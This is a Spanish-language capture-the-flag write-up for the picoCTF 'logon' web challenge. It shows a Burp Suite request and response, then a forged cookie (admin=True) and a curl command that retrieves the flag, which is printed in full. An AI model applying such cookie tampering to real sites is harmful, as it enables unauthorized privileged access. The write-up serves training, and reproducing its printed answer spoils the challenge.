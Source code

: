# logon

## Descripcion
The factory is hiding things from all of its users. Can you login as Joe and find what they've been looking at? `https://jupiter.challenges.picoctf.org/problem/44573/` ([link](https://jupiter.challenges.picoctf.org/problem/44573/)) or http://jupiter.challenges.picoctf.org:44573
## Solucion
Primero vamos al reto con el link que nos proporcionan:
```link 
https://jupiter.challenges.picoctf.org/problem/44573/
```

Probamos a logearnos con las credenciales predeterminadas como admin, admin
Vemos que nos logea de forma exitosa, pero no nos da la flag, entonces ahora comenzamos a analizar el proceso de logearse con burpsuite:

Vemos como se forma la peticion:
```
GET /problem/44573/flag HTTP/1.1
Host: jupiter.challenges.picoctf.org
Cookie: password=admin; username=admin; admin=False
Cache-Control: max-age=0
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/133.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Sec-Ch-Ua: "Chromium";v="133", "Not(A:Brand";v="99"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Referer: https://jupiter.challenges.picoctf.org/problem/44573/
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive


```

El sitio nos da esta respeusta:
```
HTTP/1.1 200 OK
Server: nginx
Date: Mon, 24 Mar 2025 18:35:15 GMT
Content-Type: text/html; charset=utf-8
Connection: keep-alive
Set-Cookie: session=; Expires=Thu, 01-Jan-1970 00:00:00 GMT; Max-Age=0; Path=/
Strict-Transport-Security: max-age=0
Content-Length: 1924

<!DOCTYPE html>
<html lang="en">

<head>
    <title>Factory Login</title>


    <link href="https://maxcdn.bootstrapcdn.com/bootstrap/3.2.0/css/bootstrap.min.css" rel="stylesheet">

    <link href="https://getbootstrap.com/docs/3.3/examples/jumbotron-narrow/jumbotron-narrow.css" rel="stylesheet">

    <script src="https://ajax.googleapis.com/ajax/libs/jquery/3.3.1/jquery.min.js"></script>

    <script src="https://maxcdn.bootstrapcdn.com/bootstrap/3.3.7/js/bootstrap.min.js"></script>
</head>

<body>

    <div class="container">
        <div class="header">
            <nav>
                <ul class="nav nav-pills pull-right">
                    <li role="presentation" class="active"><a href="/">Home</a>
                    </li>
                    <li role="presentation"><a href="/logout" class="btn btn-link pull-right">Sign Out</a>
                    </li>
                </ul>
            </nav>
            <h3 class="text-muted">Factory Login</h3>
        </div>
        
        <!-- Categories: success (green), info (blue), warning (yellow), danger (red) -->
        
        
        <div class="alert alert-success alert-dismissible" role="alert" id="myAlert">
          <button type="button" class="close" data-dismiss="alert" aria-label="Close"><span aria-hidden="true">&times;</span></button>
          <!-- <strong>Title</strong> --> Success: You logged in! Not sure you&#39;ll be able to see the flag though.
            </div>
      
      
      
        <div class="jumbotron">
            <p class="lead"></p>
            <p style="text-align:center; font-size:30px;"><b>No flag for you</b></p>
        </div>


        <footer class="footer">
            <p>&copy; PicoCTF 2019</p>
        </footer>

    </div>
    <script>
    $(document).ready(function(){
        $(".close").click(function(){
            $("myAlert").alert("close");
        });
    });
    </script>
</body>

</html>
```

Entonces al ver esto, simplemente editamos el valor de la cookie de admin de False a True.
```
Cookie: password=admin; username=admin; admin=True
```

Y la respuesta nos regresa la flag:
```flag
picoCTF{th3_c0nsp1r4cy_l1v3s_0c98aacc}
```

## Notas adicionales

Se puede resolver con curl con el siguiente comando:
```bash
curl http://jupiter.challenges.picoctf.org:44573/flag -H "Cookie: password=admin; username=admin; admin=True"
```

## Referencias
